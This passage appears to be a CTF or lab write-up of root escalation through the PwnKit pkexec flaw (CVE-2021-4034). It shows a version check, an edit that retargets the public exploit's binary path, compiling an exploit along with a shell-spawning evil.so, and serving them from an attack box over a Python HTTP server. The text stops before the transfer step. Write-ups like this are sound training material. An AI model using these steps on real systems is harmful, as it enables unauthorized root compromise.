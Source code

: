 `cd .git` gets us into the `.git` directory and we check the `pkexce`  version

```abap
red@red:~/.git$ ./pkexec --version
pkexec version 0.105
```

[https://www.exploit-db.com/exploits/50689](https://www.exploit-db.com/exploits/50689)

There is a exploit for that for the exploit to work, we just modify the `exploit.c` file by replacing the line

`#define BIN "/usr/bin/pkexec"` with `#define BIN "/home/red/.git/pkexec"`

### Privilege Escalation with PwnKit (CVE-2021-4034)

During privilege escalation enumeration, I found that `/usr/bin/pkexec` was present and set-uid root. Checking its version showed it was **0.105**, which is vulnerable to **CVE-2021-4034**, known as *PwnKit*. This bug in polkit’s `pkexec` allows local privilege escalation from an unprivileged user to root by exploiting how it mishandles arguments and environment variables.

---

### Preparing the Exploit

On my **attack box** I had access to the exploit code and compiled two components:

* `exploit` → the binary that triggers the vulnerable pkexec path.
* `evil.so` → a malicious shared object that gets loaded to execute a shell.

I verified they compiled without fatal errors.

To adapt the proof of concept to this environment, I modified the `exploit.c` source file. Specifically, I replaced the line:

```c
#define BIN "/usr/bin/pkexec"
```

with:

```c
#define BIN "/home/red/.git/pkexec"
```

This ensured the exploit would target the `pkexec` binary in the right location on the system. After that adjustment, I compiled the files successfully.

To make them available to the target machine, I hosted them with a Python HTTP server:

```bash
python3 -m http.server 9000
```

This exposed the current directory at `http://<ATTACK_BOX_IP>:9000/`.

---

### Transferring to the Target
